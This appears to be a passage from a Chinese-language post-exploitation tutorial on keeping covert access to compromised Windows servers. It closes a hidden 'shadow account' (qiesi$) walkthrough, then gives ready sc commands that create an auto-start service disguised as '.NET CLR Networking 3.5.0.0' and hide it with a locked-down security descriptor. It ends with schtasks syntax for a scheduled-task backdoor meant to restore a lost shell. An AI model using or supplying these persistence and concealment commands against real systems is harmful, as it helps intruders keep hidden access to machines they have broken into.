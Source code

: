 第四步：重新导入，双击reg文件即可。

第五步：登陆目标服务器，利用影子账号。

首先，管理账户中并没有qiesi$账户

远程登陆

#### 7.利用安全描述符隐藏服务后门进行权限维持

###### 简介

windows访问控制模型分为两部分：1.access token(访问令牌)。2.安全描述符。安全描述符包含与安全对象关联的安全信息。安全描述符包含安全描述符结构及其关联的安全信息。可以利用sc来进行创建。

###### 复现

第一步：cmd创建自启动服务

`sc create ".NET CLR Networking 3.5.0.0" binpath= "cmd.exe /k C:\Windows\System32\notepad.exe" depend= Tcpip obj= Localsystem start= auto`

第二步：隐藏服务

```
sc sdset ".NET CLR Networking 3.5.0.0" "D:(D;;DCLCWPDTSD;;;IU)

(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)

(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)

(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

#### 8.计划任务后门

原文地址：【内网渗透】后渗透之计划任务后门

###### 1、前言

我们做权限维持的时候，万一出了啥情况，shell就掉了，这时候可以去写一个计划任务，帮助我们获得权限

###### 2、实操

首先你需要知道计划任务怎么用

```
schtasks /Create /tn Updater /tr notepad.exe /sc MINUTE /mo 1



/tn 任务名字

/tr 启动运行的脚本

/sc 多久运行一次

/Create 创建新计划任务

/Delete 删除计划任务

/Query 显示计划热为奴

/Change 更改计划任务属性

/Run 按需运行计划任务

/End 中止当前正在运行的计划任务

/ShowSid 显示与计划的任务名称相应的安全标识符

```